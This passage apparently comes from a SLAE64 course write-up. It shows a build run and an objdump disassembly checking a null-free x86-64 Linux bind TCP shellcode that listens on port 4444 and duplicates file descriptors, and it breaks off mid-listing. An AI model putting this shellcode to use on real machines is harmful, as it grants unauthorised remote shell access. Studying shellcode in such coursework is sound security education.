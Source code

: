 ```nasm
	syscall
```

After compilation and execution of the `objdump` program we can see that there are no nullbytes.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ ./compile.sh bind-shellcode-course
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ objdump -d ./bind-shellcode-course -M intel

./bind-shellcode-course:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	b0 29                	mov    al,0x29
  400082:	48 31 ff             	xor    rdi,rdi
  400085:	48 83 c7 02          	add    rdi,0x2
  400089:	48 31 f6             	xor    rsi,rsi
  40008c:	48 83 c6 01          	add    rsi,0x1
  400090:	48 31 d2             	xor    rdx,rdx
  400093:	0f 05                	syscall 
  400095:	48 89 c7             	mov    rdi,rax
  400098:	48 31 c0             	xor    rax,rax
  40009b:	50                   	push   rax
  40009c:	89 44 24 fc          	mov    DWORD PTR [rsp-0x4],eax
  4000a0:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  4000a7:	c6 44 24 f8 02       	mov    BYTE PTR [rsp-0x8],0x2
  4000ac:	48 83 ec 08          	sub    rsp,0x8
  4000b0:	48 83 c0 31          	add    rax,0x31
  4000b4:	48 89 e6             	mov    rsi,rsp
  4000b7:	48 31 d2             	xor    rdx,rdx
  4000ba:	48 83 c2 10          	add    rdx,0x10
  4000be:	0f 05                	syscall 
  4000c0:	48 31 c0             	xor    rax,rax
  4000c3:	48 83 c0 32          	add    rax,0x32
  4000c7:	48 31 f6             	xor    rsi,rsi
  4000ca:	48 83 c6 02          	add    rsi,0x2
  4000ce:	0f 05                	syscall 
  4000d0:	48 31 c0             	xor    rax,rax
  4000d3:	48 83 c0 2b          	add    rax,0x2b
  4000d7:	48 83 ec 10          	sub    rsp,0x10
  4000db:	48 89 e6             	mov    rsi,rsp
  4000de:	c6 44 24 ff 10       	mov    BYTE PTR [rsp-0x1],0x10
  4000e3:	48 83 ec 01          	sub    rsp,0x1
  4000e7:	48 89 e2             	mov    rdx,rsp
  4000ea:	0f 05                	syscall 
  4000ec:	49 89 c1             	mov    r9,rax
  4000ef:	48 31 c0             	xor    rax,rax
  4000f2:	48 83 c0 03          	add    rax,0x3
  4000f6:	0f 05                	syscall 
  4000f8:	4c 89 cf             	mov    rdi,r9
  4000fb:	48 31 c0             	xor    rax,rax
  4000fe:	48 83 c0 21          	add    rax,0x21
  400102:	48 31 f6             	xor    rsi,rsi
  400105:	0f 05                	syscall 
  400107:	48 31 c0             	xor    rax,rax
  40010a:	48 83 c0 21          	add    rax,0x21
  40010e:	48 31 f6             	xor    rsi,rsi
  400111:	48 83 c6 01          	add    rsi,0x1
```